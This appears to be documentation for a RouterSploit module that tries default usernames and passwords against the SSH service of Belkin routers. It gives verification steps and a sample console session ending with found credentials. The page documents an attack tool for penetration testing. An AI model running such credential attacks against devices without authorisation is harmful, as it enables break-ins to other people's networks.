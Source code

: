## Description

Module performs dictionary attack with default credentials against Belkin Router SSH service.
If valid credentials are found, they are displayed to the user.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use creds/routers/belkin/ssh_default_creds`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If valid credentials are found, they are displayed to the user.

## Scenarios

```
rsf > use creds/routers/belkin/ssh_default_creds
rsf (Belkin Router Default SSH Creds) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Belkin Router Default SSH Creds) > run
[*] Running module...
[*] Target exposes SSH service
[*] Starting default credentials attack against SSH service
[*] thread-0 thread is starting...
[-] SSH Authentication Failed - Username: 'admin' Password: '12345'
[-] SSH Authentication Failed - Username: 'admin' Password: '123456'
[-] SSH Authentication Failed - Username: 'Admin' Password: '12345'
[-] SSH Authentication Failed - Username: 'Admin' Password: '123456'
[+] SSH Authentication Successful - Username: 'admin' Password: 'admin'
[*] thread-0 thread is terminated.
[*] Elapsed time: 2.3932292461395264 seconds
[+] Credentials found!

   Target          Port     Service     Username     Password
   ------          ----     -------     --------     --------
   192.168.1.1     22       ssh         admin        admin 

```
